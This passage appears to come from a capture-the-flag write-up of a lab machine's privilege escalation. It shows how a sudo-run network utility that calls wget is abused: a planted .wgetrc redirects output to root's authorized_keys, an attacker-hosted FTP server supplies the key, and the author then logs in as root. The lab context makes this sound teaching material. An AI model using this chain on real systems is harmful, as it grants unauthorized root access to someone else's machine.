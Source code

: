 To figure out what's happening, I uploaded and ran `pspy` in another SSH session as I run `/usr/bin/netutils`.

When HTTP is chosen, `/root/axel $URL` is run. When FTP is chosen, `wget -r ftp://$URL $FILE` is run. I tried looking for exploits for `axel` without results so I went for FTP which uses `wget`.

Looking at [documentation on `wget`](http://www.gnu.org/software/wget/manual/html_node/Wgetrc-Commands.html), we see that `output_document` can be put in `.wgetrc` to make `wget` run with `-O file`.

To exploit the FTP client, create the following `.wgetrc` in aaron's home.

```
output_document = /root/.ssh/authorized_keys
```

Then, on the attacking machine, create an SSH key pair with `ssh-keygen` and host them on an FTP server with `sudo python -m pyftpdlib -p 21`. On the victim machine, run `/usr/bin/netutils` with the following interaction.

```sh
aaron@timing:~$ sudo /usr/bin/netutils
netutils v0.1
Select one option:
[0] FTP
[1] HTTP
[2] Quit
Input >> 0
Enter Url+File: $LHOST id_rsa.pub

netutils v0.1
Select one option:
[0] FTP
[1] HTTP
[2] Quit
Input >> 2
```

Finally, use the private key to SSH in as root.

```sh
ssh -i id_rsa root@10.10.11.135
```
